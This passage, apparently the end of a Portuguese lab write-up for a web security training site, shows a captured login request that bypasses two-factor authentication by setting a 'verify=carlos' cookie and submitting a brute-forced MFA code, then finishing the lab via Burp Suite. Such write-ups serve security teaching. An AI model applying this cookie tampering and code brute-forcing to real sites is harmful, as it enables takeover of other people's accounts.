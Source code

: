 E a requisição que retornou o status code 302 foi:

```http

POST /login2 HTTP/1.1
Host: 0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Cookie: session=FIKimDUx0gZAVm4ZJPbIr21DsfiGR6yd; verify=carlos
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Referer: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

mfa-code=0255

```

agora basta clicar em `show request in browser` e copiar a url gerada pelo `burp suite` e colar no navegador

![url](broken_logic_url.png)

E assim o laboratório é concluído.

![concluido](broken_logic_concluido.png)

---
